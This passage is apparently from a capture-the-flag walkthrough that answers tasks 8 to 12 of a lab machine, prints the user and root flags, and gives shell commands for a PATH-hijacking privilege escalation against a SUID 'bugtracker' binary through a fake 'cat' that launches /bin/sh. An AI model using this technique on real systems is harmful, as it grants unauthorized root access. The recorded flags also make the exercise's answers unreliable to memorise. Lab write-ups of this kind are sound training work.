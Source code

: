       ![Screenshot 2023-01-05 at 16 19 52](https://user-images.githubusercontent.com/49148722/211022303-95c21674-dec5-40d6-856f-d3817f2b9be7.png)

			There is a suit set on that binary, which is a promising exploitation path.


		task 8 
		Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?
		 
		root

		task 9
		What SUID stands for?
		Set owner User ID

		task 10 
		What is the name of the executable being called in an insecure manner?

		using cat command we can read file. however it does not specify all directory, but we can exploit cat command

		task 11
		Submit user flag

			f2c74ee8db7983851ab2a96a44eb7981
      ![Screenshot 2023-01-05 at 16 35 13](https://user-images.githubusercontent.com/49148722/211022370-468b1a92-6841-41da-b7f9-0dff0299bc1f.png)

		task 12
		Submit root flag
			we got the bugtracker file but it can not execute on Robert user
			 lets navigate /tmp directory and create cat file 

			 echo "/bin/sh" > cat

			 We will then set the execute privileges

			 chmod +x cat

			 In order to exploit this we can add the /tmp directory to the PATH environmental variable.
			 	PATH is an environment variable on Unix-like operating systems, DOS, OS/2, and Microsoft Windows, specifying a set of directories where executable programs are located.

			 use following command to execute 

			 export PATH=/tmp:$PATH

			 check the $PATH
			 echo $PATH

			 Finally execute the bugtracker from /tmp directory

			 now we have root user access.
			 go to /root directory to get root.txt flag
			af13b0bee69f8a877c3faf667f7beacf
